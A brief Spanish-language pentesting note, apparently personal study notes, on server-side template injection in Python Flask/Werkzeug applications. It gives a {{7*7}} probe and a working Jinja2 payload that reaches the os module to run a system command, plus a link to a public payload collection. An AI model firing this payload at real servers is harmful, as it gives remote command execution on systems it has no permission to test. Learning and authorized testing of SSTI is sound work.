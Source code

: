 -- - 
Siempre que vemos que esta corriendo python de fondo, flask o werkzeug hay que probar el siguiente payload:
{{7\*7 }}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() }} --> payload usado para ejecutar comandos.
Si nos devuelve el resultado es porque definitivamente es vulnerable.
https://github.com/swisskyrepo/PayloadsAllTheThings --> todo tipo de payloads.